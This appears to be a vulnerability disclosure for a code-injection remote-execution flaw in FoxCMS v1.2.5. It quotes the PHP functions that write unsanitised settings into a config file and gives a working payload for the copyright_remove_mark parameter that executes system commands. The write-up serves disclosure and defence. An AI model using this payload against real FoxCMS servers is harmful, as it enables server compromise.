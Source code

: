 ## FoxCMS v1.2.5 Code Injection RCE

The latest version of FoxCMS, v1.2.5, has a command injection vulnerability in the website settings feature due to code concatenation. An attacker can exploit this vulnerability to inject arbitrary PHP code, allowing them to execute commands and gain access to the server.

### Debugging and Analysis

The vulnerability exists in the `save()` function of the controller file `app\admin\controller\Config.php`:
```php
public function save()
{
    $param = $this->request->post();
    $id = $param["id"];
    $base = xn_cfg("base");
    if ($param["status"] != $base["status"]) {
        // Save status
        $base["status"] = $param["status"];
    }
    if ($base["status"] == 0) {
        $base["status_desc"] = $param["status_desc"];
    }
    ......
    if ($base['copyright_remove_mark'] != $param['copyright_remove_mark']) {
        $base['copyright_remove_mark'] = $param['copyright_remove_mark'];
    }

    set_php_arr(config_path('cfg'),  'base.php', $base);
    ......
}
```

The `set_php_arr` function is called to concatenate and write the variable value into a PHP file:
```php
function set_php_arr($phpPath, $filename, $saveData)
{
    // Create directory
    if (!tp_mkdir($phpPath)) {
        return "Failed to create directory";
    }

    $phpfile = $phpPath . $filename;
    $str = "<?php\r\nreturn [\r\n";
    foreach ($saveData as $key => $val) {
        $str .= "\t'$key' => '$val',";
        $str .= "\r\n";
    }
    $str .= '];';
    file_put_contents($phpfile, $str);
}
```

By debugging, we can find the PHP file path being written to and the value of the `saveData` variable. The values in the `param` array are user-controlled, allowing for code injection by concatenating PHP code into the file.

```r
$phpfile = config\cfg\base.php
```
![](./public/3-1.png)

Since the `index.php` file includes `config\cfg\base.php`, the injected code will be executed.

![](./public/3-2.png)

### Exploiting the Vulnerability

To exploit this, go to the site settings page and click "Save," then capture the request.
![](./public/3-3.png)


Modify the `copyright_remove_mark` parameter to the following payload:
```r
0','test'=>system('whoami'),'a'=>'a
```

![](./public/3-4.png)


Afterward, access the homepage (`index.php`) and observe that many areas of the page now display the results of the executed command. Besides the command output, the attacker can also directly reverse shell into the server and gain access to the system.
![](./public/3-5.png)
